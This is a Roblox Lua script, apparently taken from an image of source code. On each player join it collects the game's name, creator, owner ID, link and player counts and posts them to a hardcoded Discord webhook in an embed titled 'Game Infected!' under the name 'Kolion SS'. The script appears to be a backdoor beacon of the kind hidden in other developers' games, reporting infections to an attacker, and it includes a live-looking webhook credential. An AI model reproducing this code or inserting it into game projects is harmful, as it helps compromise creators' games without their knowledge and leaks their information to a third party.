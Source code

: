 if game:GetService("HttpService").HttpEnabled then
	local HttpService = game:GetService("HttpService")
	local Players = game:GetService("Players")
	local MarketplaceService = game:GetService("MarketplaceService")

	local webhookUrl = "https://discord.com/api/webhooks/1415675504379432980/nDz6IQXkJcuRJxgpk1_W23GXXKY5Iy3TVm9mjjeiA9M1Y-XG4yaesXWntzQH7Chs3VM2"
	local function formatDate(isoDateString)
		local datePart = isoDateString:match("^(%d%d%d%d%-%d%d%-%d%d)")
		return datePart or isoDateString
	end

	local function sendWebhook(player)
		local success, gameInfo = pcall(function()
			return MarketplaceService:GetProductInfo(game.PlaceId)
		end)
		if not success then
			warn("Failed to get game info: " .. tostring(gameInfo))
			return
		end

		local activePlayers = #Players:GetPlayers()
		local visitedPlayers = gameInfo.TotalVisits or 0

		local iconUrl = "https://www.roblox.com/asset-thumbnail/image?assetId=" .. tostring(game.PlaceId) .. "&width=150&height=150&format=png"
		local MaxPlr = game.Players.MaxPlayers

		local data = {
			username = "Kolion SS ❤‍🔥 ",
			embeds = {{
				title = "Game Infected!";
				fields = {
					{name = "> Game", value = "-> "..gameInfo.Name, inline = true},
					{name = "> Creator", value = "-> "..(gameInfo.Creator and gameInfo.Creator.Name) or "Unknown", inline = true},
					{name = "> Game Link", value = "-> ".."https://www.roblox.com/games/"..game.PlaceId, inline = false},
					{name = "> Created On", value = "-> "..formatDate(gameInfo.Created), inline = true},
					{name = "> Active Players", value = "-> "..tostring(activePlayers), inline = true},
					{name = "> Max Player", value = "-> "..tostring(activePlayers).."/"..MaxPlr, inline = true},
					{name = "> Owner ID", value = "-> "..game.CreatorId, inline = true},
				},
				footer = {
					text = "__Kolion Bot",
				},
				timestamp = os.date("!%Y-%m-%dT%H:%M:%SZ")
			}}
		}

		local jsonData = HttpService:JSONEncode(data)

		local ok, err = pcall(function()
			HttpService:PostAsync(webhookUrl, jsonData, Enum.HttpContentType.ApplicationJson)
		end)

		if not ok then
			warn("Failed to send webhook: " .. tostring(err))
		end
	end

	Players.PlayerAdded:Connect(function(player)
		sendWebhook(player)
	end)
else
	return warn("pls enable http")
end
